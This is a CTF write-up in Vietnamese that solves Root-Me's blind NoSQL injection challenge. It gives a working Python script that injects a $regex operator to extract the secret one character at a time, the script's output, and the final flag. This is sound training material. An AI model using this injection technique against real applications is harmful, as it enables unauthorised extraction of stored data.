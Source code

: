 # NoSQL injection - Blind

## Đề bài

![](sc.png)

Link: [http://challenge01.root-me.org/web-serveur/ch48/](http://challenge01.root-me.org/web-serveur/ch48/)

![](view-web.png)

## Hướng giải

Theo yêu cầu, đây là một challenge về NoSQL Injection - Blind, ta tham khảo [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#get) và chỉnh sửa, được đoạn script như sau:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

flag=''
u='http://challenge01.root-me.org/web-serveur/ch48/index.php'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload='?chall_name=nosqlblind&flag[$regex]=^%s' % (flag + c)
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print("Found one more char : %s" % (flag+c))
        flag += c
```

Khi chạy đoạn code trên, ta thu được kết quả như sau:

```shell
Found one more char : 3
Found one more char : 3@
Found one more char : 3@s
Found one more char : 3@sY
Found one more char : 3@sY_
Found one more char : 3@sY_n
Found one more char : 3@sY_n0
Found one more char : 3@sY_n0_
Found one more char : 3@sY_n0_5
Found one more char : 3@sY_n0_5q
Found one more char : 3@sY_n0_5q7
Found one more char : 3@sY_n0_5q7_
Found one more char : 3@sY_n0_5q7_1
Found one more char : 3@sY_n0_5q7_1n
Found one more char : 3@sY_n0_5q7_1nj
Found one more char : 3@sY_n0_5q7_1nj3
Found one more char : 3@sY_n0_5q7_1nj3c
Found one more char : 3@sY_n0_5q7_1nj3c7
Found one more char : 3@sY_n0_5q7_1nj3c71
Found one more char : 3@sY_n0_5q7_1nj3c710
Found one more char : 3@sY_n0_5q7_1nj3c710n
```

Vậy key là: `3@sY_n0_5q7_1nj3c710n`.
